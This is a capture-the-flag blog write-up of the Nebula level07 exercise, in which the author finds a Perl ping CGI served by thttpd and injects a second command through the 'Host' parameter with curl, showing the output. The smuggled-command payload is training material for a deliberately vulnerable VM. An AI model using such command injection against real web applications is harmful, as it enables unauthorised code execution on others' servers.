 ```yaml
---
layout: post
title: "Reachable from the web"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 07](http://exploit-exercises.com/nebula/level07) Agenda**: "The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server."
<br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; "*It was the Perl's script, the one who swooned over the network flow.*"

<center>
	<img src="/images/2015-03-28-reachable_hosts/208716045eef408eef4fcd07.jpg">
</center>

<br />

As usual, started with target account's home investigation.
{% highlight sh linenos %}
level07@nebula:/home/flag07$ ls -la
.........
-rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf

level07@nebula:/home/flag07$ cat ./thttpd.conf | less

# This file is for thttpd processes created by /etc/init.d/thttpd.
.........
# Specifies an alternate port number to listen on.
port=7007
.........
# Specifies a directory to chdir() to at startup. This is merely a convenience
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07
.........
# Specifies a wildcard pattern for CGI programs, for instance "**.cgi" or
# "/cgi-bin/*". See thttpd(8) for details.
cgipat=**.cgi
.........
{% endhighlight %}

It appears that we have running [thttpd](http://www.acme.com/software/thttpd/thttpd_man.html) server on 7007 port with specified config from flag07 home folder (which in turns will execute all *.cgi scripts from there). 

{% highlight sh linenos %}
level07@nebula:/home/flag07$ ps aux | grep http
flag07 1187 ......... /usr/sbin/thttpd -C /home/flag07/thttpd.conf
flag16 1189 ......... /usr/sbin/thttpd -C /home/flag16/thttpd.conf
{% endhighlight %}

Indeed! And not the only one =).

From "*[index.cgi](https://exploit-exercises.com/nebula/level07/)*" source we can see that it takes value of "*Host*" argument, passes it as input to ping utility and print out the result. So let's make request with [curl](http://linux.die.net/man/1/curl) tool and use some kind of [separator](/ctf, nebula/2015/02/02/arbitrary_program_execution/) to inject the favour "*getflag*" command. Don't forget about [URL encoding](https://en.wikipedia.org/wiki/Percent-encoding).

{% highlight sh linenos %}
$curl --data-urlencode "Host=localhost;getflag" 192.168.1.3:7007/index.cgi
<html><head><title>Ping results</title></head><body><pre>PING localhost 
(127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_req=1 ttl=64 time=17.3 ms
64 bytes from localhost (127.0.0.1): icmp_req=2 ttl=64 time=17.2 ms
64 bytes from localhost (127.0.0.1): icmp_req=3 ttl=64 time=39.0 ms

--- localhost ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2012ms
rtt min/avg/max/mdev = 17.251/24.558/39.073/10.263 ms
You have successfully executed getflag on a target account
{% endhighlight %}

Line #11, indicates the end of destination point. BTW "*192.168.1.3*" is address of Nebula virtual machine in my local network (use [ifconfig](http://linux.die.net/man/8/ifconfig) to find out for your case).

P.S. You could also try to deal with request from web browser or [wget](http://stackoverflow.com/questions/9830242/what-is-o-option-means-for-wget) [util](http://linux.die.net/man/1/wget) + some online [url encoder](http://www.url-encode-decode.com/) (or at least [wiki](https://en.wikipedia.org/wiki/Percent-encoding) percent-encoding of reserved characters table) as helper for clear argument performing.